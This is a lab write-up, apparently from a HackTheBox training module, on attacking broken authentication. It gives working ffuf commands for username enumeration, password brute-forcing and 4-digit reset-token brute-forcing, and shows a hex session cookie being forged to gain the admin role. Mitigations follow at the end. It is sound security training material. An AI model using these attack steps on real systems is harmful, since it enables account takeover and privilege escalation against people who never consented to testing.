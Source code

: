 **Broken Authentication - Advanced Technical Writeup**

By Ramyar Daneshgar 

## **Introduction**

In this lab, I conducted a penetration test against a web application to identify and exploit broken authentication vulnerabilities. My objective was to systematically enumerate users, leverage credential stuffing, manipulate authentication tokens, and escalate privileges to gain administrative access. This writeup follows an offensive security methodology, utilizing enumeration techniques, brute-force attacks, token hijacking, and session manipulation. 
---

## **Step 1: Enumerating Users**

### **Objective:** Identify valid usernames through response-based enumeration.

User enumeration occurs when an application provides different error messages for invalid usernames versus incorrect passwords. This information disclosure vulnerability allows an attacker to verify valid accounts through systematic queries.

### **Process & Logic:**

1. I navigated to the authentication page and attempted login with random credentials.
2. Using browser DevTools (Ctrl + Shift + E), I analyzed the HTTP responses.
3. I found that incorrect usernames returned an "Unknown user" error, while incorrect passwords for valid users returned "Incorrect password." This difference allowed me to infer valid usernames.
4. To automate this attack, I used `ffuf`, a fast web fuzzer:

```bash
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt \
     -u http://STMIP:STMPO/index.php \
     -X POST -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=FUZZ&password=123" -fr "Unknown user."
```

- `-w`: Specifies the wordlist containing potential usernames.
- `-X POST`: Ensures the request is a POST request.
- `-H`: Sets the request header for proper content type.
- `-d`: Sends form data, fuzzing the `username` field.
- `-fr "Unknown user."`: Filters out responses containing "Unknown user." since that indicates a non-existent username.

This technique successfully revealed valid usernames.

---

## **Step 2: Brute-Forcing Credentials**

### **Objective:** Exploit weak password policies to obtain valid credentials.

Once I identified a valid username, I proceeded with a credential brute-force attack.

### **Process & Logic:**

1. I observed the web application’s password policy, which required at least one uppercase letter, one lowercase letter, and one digit, with a minimum length of 10 characters.
2. I filtered `rockyou.txt` to include only compliant passwords:

```bash
sudo grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | \
grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > rockyouTrimmed.txt
```

- `grep '[[:upper:]]'`: Filters passwords containing at least one uppercase letter.
- `grep '[[:lower:]]'`: Ensures passwords have lowercase letters.
- `grep '[[:digit:]]'`: Filters passwords with at least one number.
- `grep -E '.{10}'`: Ensures the password length is 10 or more.

3. I executed a brute-force attack using `ffuf`:

```bash
ffuf -w rockyouTrimmed.txt -u http://STMIP:STMPO/index.php \
     -X POST -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=admin&password=FUZZ" -fr "Invalid username or password." -t 60
```

- This systematically tested passwords from my filtered list against the admin account.
- The correct password was identified, granting me access.

---

## **Step 3: Exploiting Weak Password Reset Tokens**

### **Objective:** Exploit short-lived OTP vulnerabilities to take over an account.

The password reset feature used a **4-digit OTP**, which is easily brute-forced.

### **Process & Logic:**

1. I requested a password reset and intercepted the link containing `token=XXXX`.
2. I generated a wordlist of all 4-digit combinations:

```bash
seq -w 0000 9999 > tokens.txt
```

- `seq -w 0000 9999`: Generates numbers from 0000 to 9999, ensuring uniform length.

3. I launched a brute-force attack using `ffuf`:

```bash
ffuf -w tokens.txt -u http://STMIP:STMPO/reset_password.php?token=FUZZ \
     -fr "The provided token is invalid" -t 60
```

- Since there are only 10,000 possible values, brute-forcing is trivial.
- I obtained a valid OTP and reset the admin password.

---

## **Step 4: Authentication Bypass via Insecure Direct Object Reference (IDOR)**

### **Objective:** Exploit IDOR to gain admin access.

IDOR vulnerabilities occur when an application improperly verifies access controls, allowing users to access unauthorized resources.

### **Process & Logic:**

1. I attempted to access `/admin.php`, which redirected me away.
2. Using Burp Suite, I intercepted the request and found that the response still contained admin panel content.
3. By manually accessing the leaked URL, I bypassed authentication and gained admin access.

This demonstrated a **lack of proper authorization checks**.

---

## **Step 5: Session Hijacking via Token Manipulation**

### **Objective:** Escalate privileges by modifying session tokens.

Session tokens should be encrypted and integrity-checked to prevent manipulation. However, in this case, they were stored in plaintext hexadecimal format.

### **Process & Logic:**

1. I examined the session cookie and decoded it:

```bash
echo -n '757365723d6874622d7374646e743b726f6c653d75736572' | xxd -r -p
```

- `xxd -r -p`: Decodes hexadecimal data into plaintext.
- Output: `user=htb-stdnt;role=user`

2. I modified the session role to `admin` and re-encoded it:

```bash
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

3. I replaced my session cookie with the modified value, successfully escalating privileges.

This demonstrated a **lack of session integrity verification**, allowing unauthorized privilege escalation.

---

## **Lessons Learned & Mitigation Strategies**

### **Preventing User Enumeration:**

- Implement **generic error messages** for failed logins.
- Enforce **rate-limiting and progressive delays** on failed authentication attempts.

### **Defending Against Brute-Force Attacks:**

- Implement **account lockouts and MFA**.
- Require **stronger password policies**.

### **Securing OTP Mechanisms:**

- Use **6-digit+ OTPs** with **time-based expiration (TOTP)**.
- Apply **rate-limiting to OTP verification attempts**.

### **Mitigating IDOR Vulnerabilities:**

- Enforce **server-side access control validation**.
- Use **UUIDs instead of sequential numeric IDs**.

### **Securing Session Tokens:**

- Encrypt and sign tokens to prevent tampering.
- Implement **short-lived session expiration**.



